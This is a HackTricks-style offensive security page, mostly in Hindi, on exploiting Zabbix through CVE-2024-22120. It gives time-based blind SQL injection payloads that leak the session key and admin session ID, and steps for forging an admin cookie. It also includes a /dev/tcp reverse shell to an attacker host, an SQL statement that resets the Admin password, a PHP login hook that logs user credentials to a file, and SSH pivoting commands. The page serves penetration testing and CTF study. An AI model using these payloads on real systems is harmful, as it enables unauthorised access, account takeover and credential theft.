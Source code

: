 # Zabbix सुरक्षा

{{#include ../../banners/hacktricks-training.md}}

## अवलोकन

Zabbix एक monitoring प्लेटफ़ॉर्म है जो एक web UI एक्सपोज़ करता है (आमतौर पर Apache/Nginx के पीछे) और एक server component है जो Zabbix protocol पर TCP/10051 (server/trapper) और agent पर TCP/10050 पर भी बात करता है। Engagements के दौरान आप निम्न का सामना कर सकते हैं:

- Web UI: HTTP(S) वर्चुअल होस्ट जैसे zabbix.example.tld
- Zabbix server port: 10051/tcp (JSON over a ZBXD header framing)
- Zabbix agent port: 10050/tcp

उपयोगी cookie फॉर्मैट: zbx_session एक compact JSON ऑब्जेक्ट का Base64 है जिसमें कम-से-कम sessionid, serverCheckResult, serverCheckTime और sign शामिल होते हैं। sign JSON payload का HMAC होता है।

## zbx_session cookie के अंदरूनी विवरण

हाल के Zabbix वर्ज़न cookie को इस तरह गणना करते हैं:

- data JSON: {"sessionid":"<32-hex>","serverCheckResult":true,"serverCheckTime":<unix_ts>}
- sign: HMAC-SHA256(key=session_key, data=JSON string of data sorted by keys and compact separators)
- Final cookie: Base64(JSON_with_sign)

यदि आप global session_key और एक वैध admin sessionid recover कर सकें, तो आप offline एक वैध Admin cookie forge करके UI में authenticate कर सकते हैं।

## CVE-2024-22120 — Time-based blind SQLi in Zabbix Server audit log

प्रभावित वर्ज़न (जैसा कि सार्वजनिक रूप से दस्तावेज़ित):

- 6.0.0–6.0.27, 6.4.0–6.4.12, 7.0.0alpha1

कमज़ोरी सारांश:

- जब किसी Script execution को Zabbix Server audit log में रिकॉर्ड किया जाता है, तो clientip फ़ील्ड sanitize नहीं होता और SQL में concatenated किया जाता है, जिससे server component के माध्यम से time-based blind SQLi सक्षम होता है।
- यह तब exploit किया जा सकता है जब आप Zabbix server पोर्ट 10051 पर एक crafted "command" request भेजते हैं जिसमें एक वैध low-privileged sessionid, एक hostid जिसे user एक्सेस कर सकता है, और एक permitted scriptid शामिल हों।

पूर्व शर्तें और खोज सुझाव:

- sessionid: web UI के guest/login से, zbx_session (Base64) को decode करके sessionid प्राप्त करें।
- hostid: web UI requests (जैसे Monitoring → Hosts) के माध्यम से देखें या proxy से intercept करें; सामान्य default 10084 है।
- scriptid: केवल वही scripts execute होंगे जो current role को permitted हैं; script menu/AJAX responses देखकर verify करें। सामान्य defaults जैसे 1 या 2 अक्सर allowed होते हैं; 3 deny हो सकता है।

### Exploitation flow

1) clientip में SQLi के साथ audit insert ट्रिगर करें

- TCP/10051 से कनेक्ट करें और एक Zabbix framed message भेजें जिसमें request="command" हो और sid, hostid, scriptid शामिल हों, तथा clientip को ऐसे SQL expression पर सेट करें जो server द्वारा concatenated होकर evaluate होगा।

न्यूनतम message (JSON body) फ़ील्ड्स:
```json
{
"request": "command",
"sid": "<low-priv-sessionid>",
"scriptid": "1",
"clientip": "' + (SQL_PAYLOAD) + '",
"hostid": "10084"
}
```
पूर्ण वायर फ़ॉर्मेट है: "ZBXD\x01" + 8-byte little-endian length + UTF-8 JSON. आप pwntools या अपने socket code का उपयोग इसे फ्रेम करने के लिए कर सकते हैं।

2) Time-bruteforce secrets को conditional sleep के जरिए

response time मापकर conditional expressions का उपयोग करके hex-encoded secrets को एक-एक char करके leak करें। व्यवहार में काम करने वाले उदाहरण:

- Leak global session_key from config:
```sql
(select CASE WHEN (ascii(substr((select session_key from config),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
- Leak Admin session_id (userid=1) sessions से:
```sql
(select CASE WHEN (ascii(substr((select sessionid from sessions where userid=1 limit 1),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```
Notes:

- charset: 32 hex अक्षर [0-9a-f]
- Pick T_TRUE >> T_FALSE (e.g., 10 vs 1) और प्रति प्रयास wall-clock मापें
- Ensure your scriptid is actually authorized for the user; अन्यथा कोई audit row उत्पन्न नहीं होगा और timing काम नहीं करेगा

3) Admin cookie फ़ोर्ज करें

Once you have:

- session_key: 32-hex from config.session_key
- admin_sessionid: 32-hex from sessions.sessionid for userid=1

Compute:

- sign = HMAC_SHA256(key=session_key, data=json.dumps({sessionid, serverCheckResult:true, serverCheckTime:now}, sort by key, compact))
- zbx_session = Base64(JSON_with_sign)

Set the cookie zbx_session to this value and GET /zabbix.php?action=dashboard.view to validate Admin access.

### Ready-made tooling

- Public PoC स्वचालित करता है: session_key और admin sessionid का bruteforce, और cookie forging; इसके लिए pwntools और requests चाहिए।
- आम तौर पर दिए जाने वाले पैरामीटर: --ip (UI का FQDN), --port 10051, --sid (low-priv), --hostid, और वैकल्पिक रूप से ज्ञात --admin-sid ताकि brute से बचा जा सके।

## Script execution के माध्यम से RCE (post-Admin)

UI में Admin access होने पर, आप monitored hosts के खिलाफ predefined Scripts चला सकते हैं। यदि agents/hosts script commands स्थानीय रूप से execute करते हैं, तो यह उन सिस्टम्स पर code execution देता है (अक्सर Linux hosts पर zabbix user के रूप में):

- Quick check: run id चलाकर user context की पुष्टि करें
- Reverse shell उदाहरण:
```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
```
TTY अपग्रेड (Linux):
```bash
script /dev/null -c bash
# background with Ctrl+Z, then on attacker terminal:
stty raw -echo; fg
reset
```
यदि आपके पास DB access है, तो forging a cookie के बजाय Admin पासवर्ड को "zabbix" के लिए दस्तावेजीकृत bcrypt पर रीसेट करना एक तरीका है:
```sql
UPDATE users SET passwd='$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username='Admin';
```
## Credential capture via login hook (post-exploitation)

यदि file write संभव है और web UI server तक पहुँच हो, तो आप अस्थायी रूप से /usr/share/zabbix/index.php में form-based login branch के आसपास एक logging snippet जोड़कर credentials capture कर सकते हैं:
```php
// login via form
if (hasRequest('enter') && CWebUser::login(getRequest('name', ZBX_GUEST_USER), getRequest('password', ''))) {
$user = $_POST['name'] ?? '??';
$password = $_POST['password'] ?? '??';
$f = fopen('/dev/shm/creds.txt','a+'); fputs($f, "$user:$password\n"); fclose($f);
CSessionHelper::set('sessionid', CWebUser::$data['sessionid']);
}
```
यूज़र्स सामान्य रूप से प्रमाणीकृत होते हैं; बाद में /dev/shm/creds.txt पढ़ें। काम खत्म होने पर hook हटाएँ।

## Pivoting to internal services

यदि service account shell /usr/sbin/nologin भी हो, तो एक SSH authorized_keys एंट्री जोड़कर और -N -L का उपयोग करके loopback-only सेवाओं के लिए local port-forwarding की अनुमति मिलती है (e.g., CI/CD at 8111):
```bash
ssh -i key user@host -N -L 8111:127.0.0.1:8111
```
अधिक tunneling पैटर्न के लिए देखें: [Tunneling and Port Forwarding](../../generic-hacking/tunneling-and-port-forwarding.md).

## ऑपरेशनल टिप्स

- सुनिश्चित करें कि scriptid वर्तमान role के लिए अनुमत है (guest के पास सीमित सेट हो सकता है)
- Timing brute धीमा हो सकता है; पुनः प्राप्त admin sessionid को cache करें और पुन: उपयोग करें
- 10051 को भेजा गया JSON ZBXD\x01 हेडर और little-endian length के साथ फ्रेम किया जाना चाहिए

## संदर्भ

- [HTB Watcher — Zabbix CVE-2024-22120 to Admin/RCE and TeamCity root pivot](https://0xdf.gitlab.io/2025/10/09/htb-watcher.html)
- [CVE-2024-22120-RCE toolkit (PoC scripts)](https://github.com/W01fh4cker/CVE-2024-22120-RCE)

{{#include ../../banners/hacktricks-training.md}}

